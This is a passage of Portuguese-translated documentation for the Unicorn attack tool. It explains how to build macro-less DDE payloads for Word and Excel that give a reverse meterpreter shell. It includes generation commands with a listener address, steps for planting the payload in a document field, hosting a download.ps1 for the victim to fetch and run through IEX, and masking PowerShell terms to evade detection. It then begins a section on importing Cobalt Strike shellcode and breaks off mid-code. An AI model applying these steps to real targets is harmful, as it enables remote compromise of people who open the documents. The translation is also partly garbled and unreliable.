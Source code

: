 ```

Este vetor de ataque irá gerar a fórmula DDEAUTO para colocar no Word ou Excel. O objeto COM
DDEInitilize e DDEExecute permitem que fórmulas sejam criadas diretamente no Office, o que faz com que o
capacidade de obter execução remota de código sem a necessidade de macros. Este ataque foi documentado e completo
instruções podem ser encontradas em:

https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/

Para usar este ataque, execute os seguintes exemplos:

    python unicorn.py <payload> <lhost> <lport> dde
    python unicorn.py windows/meterpreter/reverse_https 192.168.5.5 443 dde

Uma vez gerado, a powershell_attack.txt será gerado que contém o código do Office e o
unicorn.rc arquivo que é o componente ouvinte que pode ser chamado por msfconsole -r unicorn.rc para
lidar com o ouvinte para a carga útil. além disso um download.ps1 também serão exportados (explicado
na última seção).

Para aplicar o payload, como exemplo (do artigo do sensepost):

1. Open Word
2. Insert tab -> Quick Parts -> Field
3. Choose = (Formula) and click ok.
4. Once the field is inserted, you should now see "!Unexpected End of Formula"
5. Right-click the Field, choose "Toggle Field Codes"
6. Paste in the code from Unicorn
7. Save the Word document.

Depois que o documento do Office for aberto, você deverá receber um shell por meio da injeção de powershell. Observação
esse DDE é limitado no tamanho do caractere e precisamos usar Invoke-Expression (IEX) como o método de download.

O ataque DDE tentará baixar download.ps1, que é nosso ataque de injeção de powershell desde
estamos limitados a restrições de tamanho. Você precisará mover o download.ps1 para um local que seja
acessível pela máquina da vítima. Isso significa que você precisa hospedar o download.ps1 em um Apache2
diretório ao qual ele tem acesso.

Você pode notar que alguns dos comandos usam "{ QUOTE" estas são formas de mascarar comandos específicos
que está documentado aqui: http://staaldraad.github.io/2017/10/23/msword-field-codes/. Nesse caso
estamos mudando WindowsPowerShell, powershell.exe, and IEX to evitar a detecção. Confira também a URL
pois tem alguns ótimos métodos para não chamar o DDE.

###               -----Farol de Cobalto de Importação ----

Este método importará o shellcode direto do Cobalt Strike Beacon diretamente do Cobalt Strike.

No Cobalt Strike, exporte a exportação Cobalt Strike "CS" (C#) e salve-a em um arquivo. Por exemplo, ligue
o arquivo, cobalt_strike_file.cs.

O código de exportação será mais ou menos assim:

* length: 836 bytes */
byte[] buf = new byte[836] { 0xfc, etc
```